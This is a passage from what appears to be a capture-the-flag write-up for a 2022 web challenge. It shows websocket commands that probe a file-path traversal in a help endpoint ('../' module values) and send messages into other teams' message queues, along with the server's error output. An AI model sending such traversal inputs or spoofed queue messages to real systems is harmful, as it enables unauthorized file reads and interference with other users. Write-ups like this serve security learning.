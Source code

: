 ```
Unhandled received MESSAGE: MESSAGE
content-length:131
message-id:rvh01e13-745
subscription:sub-2
content-type:application/json
destination:/queue/9467772506734481705419699954668
content-length:131

{"content":"java.nio.file.NoSuchFileException: /DevelopersHubris/src/main/java/com/example/developershubris/config/WebConfig.java"}
```

Wait. Is there a file access vulnerability?

```js
>> stompClient.send("/app/help", {}, JSON.stringify({'module': "../as", 'subId': subId}));
<< {"content":"java.nio.file.NoSuchFileException: /DevelopersHubris/as"}
```

Things are about to get a whole lot more interesting.

### Interlude: Undocumented Feature

Since we can subscribe to the messages sent to every team, we can also figure out their subscription ids and send messages to other teams. Take that, Anonymous <sup>[<a href="http://chals.2022.squarectf.com:4105/">citation needed</a>]</sup> Crushes&trade;!

```js
>> stompClient.send("/queue/9467772506734481705419699954668", {}, JSON.stringify({content: "lmao this is actually an https://xkcd.com/1305/ moment"}))
```

```txt
Unhandled received MESSAGE: MESSAGE
content-length:21
message-id:sld1a33g-662
subscription:sub-3
content-type:application/json
destination:/queue/58653386571563056218719035278836
content-length:21

{"content":"hithere"}
```
<center><i>Figure: rare instance of two CS majors engaged in social communication /s</i></center>

## Enterprise Naming Schemes

At this point, it's a race to exfiltrate the working directory of the server. One important caveat of getting files through `/app/help` is that the server prevents you from getting any folder outside of the working directory:

```js
>> stompClient.send("/app/help", {}, JSON.stringify({'module': "../../", 'subId': subId}))
<< {"content":"com.example.developershubris.PathSecurityUtil$PathSecurityException: Cannot access files outside of the application directory"}
```
